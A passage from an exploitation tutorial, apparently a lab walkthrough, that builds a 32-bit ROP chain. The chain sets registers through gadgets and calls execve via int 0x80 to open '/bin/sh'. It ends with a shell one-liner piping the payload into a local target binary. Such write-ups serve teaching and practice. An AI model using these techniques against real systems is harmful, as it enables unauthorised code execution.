 Our exploit should look like this now:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBBxcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7
```

*It is starting to get really ugly, but trust me - it's worth it.

Where do we return to next? we want to set ebx. So let's return to the ROP gadget from earlier, it's address: 0xf7ffd5cd. We pop "/bin/sh"'s address - `0xffffde4c` - to ebx, and Again we have irrelevant pops in the same gadget, let's pop junk to it. 

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBBxcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB
```

Now we want to jump the the gadget of `edx` and `ecx`. It's address is `0xf7ffc57a`. In `edx` we want to have `NULL`, and in `ecx` a pointer to our `argv` from earlier - `0xffffde5c`. Let's chain that to our exploit:

```
/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBBxcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff
```

Finally we want to jump to a `int 0x80` instruction to initiate the shell! If our calculations are right, we should have our shell right away.

Let's use `printf` to print the output and pipe it to the binary. Also remember to use the `cat` so the shell doesn't close immediatly after executing. If you don't know what I am talking about, watch this video (around minute 10): https://www.youtube.com/watch?v=HSlhY4Uy8SA.

```
(printf '/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08' ; cat) | ./target
```
